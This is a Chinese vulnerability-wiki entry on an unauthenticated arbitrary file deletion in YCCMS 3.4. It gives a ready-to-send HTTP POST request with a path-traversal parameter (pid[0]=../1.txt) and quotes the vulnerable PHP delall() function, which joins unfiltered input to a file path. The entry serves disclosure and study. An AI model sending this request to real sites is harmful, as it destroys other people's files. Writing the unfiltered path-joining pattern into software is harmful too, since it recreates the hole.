 YCCMS 3.4 任意文件删除
======================

一、漏洞简介
------------

二、漏洞影响
------------

YCCMS 3.4
---------

三、复现过程

    POST /admin/?a=pic&m=delall HTTP/1.1
    Host: www.0-sec.org:8082
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 89
    Origin: http://127.0.0.1:8082
    Connection: close
    Referer: http://127.0.0.1:8082/admin/?a=pic
    Upgrade-Insecure-Requests: 1

    pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t

只需要更改pid\[0\]即可在无登录条件下任意删除文件，删除根目录下的1.txt![3.png](/Users/aresx/Documents/VulWiki/.resource/YCCMS3.4任意文件删除/media/rId24.png)已经删除成功了![4.png](/Users/aresx/Documents/VulWiki/.resource/YCCMS3.4任意文件删除/media/rId25.png)其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生根据url定位到相关函数位置,位于/controller/PicAction.class.php

    public function delall(){
            if(isset($_POST['send'])){
                if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
                $_fileDir=ROOT_PATH.'/uploads/';
                foreach($_POST['pid'] as $_value){
                    $_filePath=$_fileDir.$_value;
                    if(!unlink($_filePath)){
                        tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
                    }else{
                        header('Location:?a=pic');
                    }
                }

            }

        }

对
pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

参考链接
--------

> https://xz.aliyun.com/t/7748\#toc-4
